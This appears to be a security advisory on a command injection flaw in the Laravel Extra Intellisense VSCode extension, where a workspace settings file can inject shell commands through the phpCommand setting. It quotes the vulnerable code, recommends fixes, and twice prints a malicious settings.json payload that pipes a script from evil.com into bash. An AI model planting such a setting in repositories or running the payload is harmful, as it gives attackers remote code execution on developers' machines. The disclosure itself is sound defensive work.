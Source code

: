 # Vulnerability Assessment - Updated List

Based on detailed project analysis and the provided criteria, here is the markdown formatted vulnerability summary highlighting the identified critical issue:

---

## Critical Vulnerabilities Identified

### 1. Command Injection via Configurable PHP Execution Command (`phpCommand` setting)

**Description:**
- Laravel Extra Intellisense is a VSCode extension allowing customizable PHP command execution via the user-configurable setting `"LaravelExtraIntellisense.phpCommand"`.
- A malicious actor can craft or manipulate a repository to include a malicious `.vscode/settings.json` file defining arbitrary commands in the extension-specific `phpCommand` setting.
- Example of malicious configuration that might be injected:
  ```json
  {
    "LaravelExtraIntellisense.phpCommand": "php -r \"{code}\"; curl http://evil.com/malicious.sh | bash"
  }
  ```
- When a victim clones and opens this maliciously-crafted repository using VSCode, the Laravel Extra Intellisense extension triggers periodic execution of the configured PHP command for providing Intellisense features (e.g., fetching information about Laravel routes, configurations, models, views).
- Due to lack of validation, the injected command payload executes, causing direct and immediate arbitrary Command Injection and Remote Code Execution (RCE).

**Impact:**
- The vulnerability allows an attacker to execute arbitrary system-level commands on the victim's host operating system, potentially achieving full system compromise or privilege escalation (depending on privileges associated with VSCode).
- Possible consequences include:
  - Uploading and executing malware or ransomware onto victim machines.
  - Remote access establishment by downloading an attacker-controlled script and executing it.
  - Theft and exfiltration of sensitive user data or repository code.
  - Complete control over victim workstation environment.

**Vulnerability Rank:**
⚠️ **Critical**

**Currently Implemented Mitigations:**
- **No implemented mitigations** exist in the Laravel Extra Intellisense extension source code as of this analysis.
- A general security warning exists in documentation about the periodic automatic Laravel application execution but no explicit mitigation is provided regarding arbitrary command execution or malicious injection of commands.

**Missing Mitigations:**
- **Validation/Sanitization of Commands:** Extension should strictly validate and sanitize the user-provided PHP command prior to execution, ensuring no arbitrary or malicious code injections.
- **Allowlisting Commands:** Implement a secure allowlist within the extension specifying safe combinatorial patterns and permitted execution commands, and reject anything beyond the safety threshold.
- **Workspace Trust Enforcement:** Use VSCode's Workspace Trust API to explicitly verify and block automatic execution of potentially unsafe commands or altered configurations from untrusted workspace environments.
- **Explicit Security Warnings & Confirmation Dialogs:** Clearly inform and require user confirmation before executing custom-defined PHP commands that may have security implications.

**Preconditions:**
- Attacker must prepare and host (on platforms like GitHub) a repository folder with malicious `.vscode/settings.json` configuration.
- Victim needs to have installed Laravel Extra Intellisense VSCode extension.
- Victim actively opens (or clones and opens) repository in VSCode without precautions such as workspace trust settings or manual auditing.

**Source Code Analysis (Detailed Steps):**
- `src/helpers.ts` within the Laravel Extra Intellisense extension executes external commands unsafely via node's `child_process.exec()` based directly on user-defined commands.

  ```typescript
  let commandTemplate = vscode.workspace.getConfiguration("LaravelExtraIntellisense").get<string>('phpCommand') ?? "php -r \"{code}\"";
  let command = commandTemplate.replace("{code}", code);
  cp.exec(command, (error, stdout, stderr) => { ... });
  ```
- This custom `commandTemplate` setting is completely user-controlled, with no validation or sanitization mechanisms, leading directly to command injection if user workspace configuration is compromised.
- No protective coding practices are employed to mitigate the potential injection scenario by the implementation, making exploitation straightforward.

**Security Test Case (Reproducing Attack):**
To confirm the vulnerability, the following concrete steps illustrates a practical exploit scenario from an external attacker's viewpoint:

1. Attacker creates/clones a realistic-looking Laravel GitHub repository (or other git-hosted repository).
2. Attacker modifies repository content by placing malicious `.vscode/settings.json`:

   ```json
   {
     "LaravelExtraIntellisense.phpCommand": "php -r \"{code}\"; curl http://evil.com/malicious.sh | bash"
   }
   ```

3. Attacker hosts an external script on `http://evil.com/malicious.sh` with malicious payload to confirm command execution upon victim triggering.
4. Attacker tricks victim into cloning and opening malicious repository; victim has `LaravelExtraIntellisense` extension installed and active.
5. As soon as the Laravel Extra Intellisense extension triggers PHP command execution (e.g., indexing Laravel routes or views), attacker's command executes:
   - Victim's VSCode extension executes:
     ```
     php -r "{code}"; curl http://evil.com/malicious.sh | bash
     ```
   - Immediately downloads and runs attacker-hosted script (`malicious.sh`), gaining remote shell access, executing arbitrary commands, or confirming successful exploitation via external callback.

---

## **Conclusion and Recommendations:**
Only this **Critical** command injection vulnerability qualifies as per described criteria (RCE/Command Injection/Code Injection >= high rank).

Immediate actions recommended:
- Implement rigorous validation strategies (sanitization, allowlisted strict commands).
- Leverage built-in VSCode Workspace Trust APIs to minimize automatic harmful configurations being executed without explicit user permissions.
- Clearly document and communicate security considerations and implement confirmation dialogues prior to executing workspace-specific custom commands defined externally.
- Rapidly address vulnerability in source code and release secured version immediately, clearly outlining remediation strategy to users.

No additional vulnerabilities satisfying the specified criteria (RCE, Command Injection, Code Injection ranked High or Critical) were discovered or are present beyond the critical command injection vulnerability described in this analysis.
